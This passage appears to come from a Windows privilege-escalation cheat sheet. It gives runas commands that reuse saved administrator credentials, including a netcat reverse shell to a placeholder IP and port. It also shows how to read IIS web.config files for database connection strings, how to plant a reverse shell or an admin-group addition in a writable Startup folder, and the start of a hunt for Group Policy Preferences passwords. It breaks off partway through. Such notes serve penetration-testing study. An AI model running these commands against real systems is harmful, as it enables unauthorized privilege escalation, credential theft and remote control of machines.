 **Regular Shell**

Proof of Concept (POC):

```
runas /env /noprofile /savecred /user:administrator "cmd.exe /c whoami > whoami.txt"
```

To get a shell, transfer `nc.exe` and run:

```
runas /env /noprofile /savecred /user:ACCESS\Administrator "nc.exe <ip> <port> -e cmd.exe"
```

### IIS Configuration Files

Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called **web.config** and can store passwords for databases or configured authentication mechanisms.

Locations to check:

- `C:\inetpub\wwwroot\web.config`
- `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`

Here is a quick way to find database connection strings in the file:

```
type C:\inetpub\wwwroot\web.config

type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

### Startup Application

Check if we have write access to the directory of startup applications:

```powershell
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

Upload malicious reverse shell or add user to admin group and wait for an administrative user to login.

### GPP-Password

If the machine belongs to a domain and your user has access to `System Volume Information` there might be some sensitive files there.

First we need to map/mount that drive. In order to do that we need to know the IP-address of the domain controller. We can just look in the environment-variables
```
Get-CachedGPPPassword               -   PowerUp checks for passwords in cached Group Policy Preferences files
```

```

# Output environment-variables
set

# Look for the following:
LOGONSERVER=\\NAMEOFSERVER
USERDNSDOMAIN=WHATEVER.LOCAL

# Look up ip-addres
nslookup nameofserver.whatever.local

# It will output something like this
Address:  192.168.1.101

# Now we mount it
```